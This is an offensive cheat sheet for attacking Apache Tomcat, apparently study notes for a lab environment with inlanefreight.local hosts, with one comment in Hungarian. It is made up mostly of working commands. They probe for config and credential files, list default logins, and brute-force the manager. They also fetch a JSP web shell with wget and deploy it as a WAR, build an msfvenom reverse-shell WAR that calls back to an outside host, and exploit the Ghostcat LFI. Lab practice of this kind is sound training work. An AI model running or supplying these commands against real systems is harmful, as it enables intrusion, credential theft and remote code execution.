 # tomcat
## version detection
http://app-dev.inlanefreight.local:8080/invalid        (invalid request)  
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat  
## interesting locations
curl -s http://app-dev.inlanefreight.local:8080/conf/  
curl -s http://app-dev.inlanefreight.local:8080/conf/tomcat-users.xml  
curl -s http://app-dev.inlanefreight.local:8080/conf/tomcat-users.xsd  
curl -s http://app-dev.inlanefreight.local:8080/lib/  
curl -s http://app-dev.inlanefreight.local:8080/logs/  
curl -s http://app-dev.inlanefreight.local:8080/temp/  
curl -s http://app-dev.inlanefreight.local:8080/webapps/random_app1/WEB-INF/web.xml  
curl -s http://app-dev.inlanefreight.local:8080/webapps/random_app1/WEB-INF/classes  
## main urls for tomcat manager
curl -s http://app-dev.inlanefreight.local:8080/manager/  
curl -s http://app-dev.inlanefreight.local:8080/host-manager/  
## default credentials
tomcat:tomcat  
admin:admin  
## tomcat manager login bruteforcing
### metasploit
msf> auxiliary/scanner/http/tomcat_mgr_login  
### python script
!!!! itt van kulon tomcat-users meg tocmat-passwords directory!!! Erdemes azt hasznalni!!!
https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce  
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt  
### tomcat wordlists
* user list
  * /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
* pass list
  * /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
## tomcat manager - WAR file upload (/manager/html)
* example jsp rce payload
  * wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
* convert .jsp to .war
  * zip -r payload.war cmd.jsp
* tomcat manager upload
  * 'WAR file to deploy' section
  * Browse (choose .war file)
  * Deploy
* choose 'payload' from the 'Applications'
* load web shell in browser
  * firefox> http://web01.inlanefreight.local:8180/payload/cmd.jsp
* call web shell through curl
  * curl http://web01.inlanefreight.local:8180/payload/cmd.jsp?cmd=id
## generating war web shell with msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war  
## uploading war file with metasploit
msf> exploit/multi/http/tomcat_mgr_upload  
## CVE-2020-1938 : Ghostcat vulnerability
### info
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938  
Tomcat was found to be vulnerable to an unauthenticated LFI in a semi-recent discovery named Ghostcat.  
All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable.  
This vulnerability was caused by a misconfiguration in the AJP (Apache Jserv Protocol) protocol used by Tomcat.  
AJP port: 8009
### exploitation
nmap -sV -p 8009 app-dev.inlanefreight.local  
https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi  
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml  
